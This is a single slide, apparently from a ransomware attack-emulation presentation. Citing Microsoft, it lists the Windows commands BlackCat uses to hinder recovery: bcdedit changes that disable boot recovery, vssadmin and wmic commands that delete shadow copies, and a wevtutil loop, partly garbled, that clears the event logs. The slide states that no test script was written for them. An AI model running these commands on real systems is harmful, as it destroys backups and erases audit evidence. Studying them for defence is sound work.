

# Emulating Attacks – Hampering Recovery Methods
According to Microsoft (2023), BlackCat has numerous methods that makes recovery efforts more difficult. These are commands that can be launched by a payload or from other means.
Modifying boot loader:
“C:\Windows\system32\cmd.exe” /c “bcdedit /set {default}”
“C:\Windows\system32\cmd.exe” /c “bcdedit /set {default} recoveryenabled No”
Deleting volume shadow copies
“C:\Windows\system32\cmd.exe” /c “vssadmin.exe Delete Shadows /all /quiet”
“C:\Windows\system32\cmd.exe” /c “wmic.exe Shadowcopy Delete”
Clear Windows event logs
“C:\Windows\system32\cmd.exe” /c “cmd.exe /c  for /F \”tokens=*\” Incorrect function. in (‘ wevtutil.exe el ‘) DO wevtutil.exe cl \”Incorrect function. \””
Due to the dangerous nature of these commands, a script is not made to test these cases.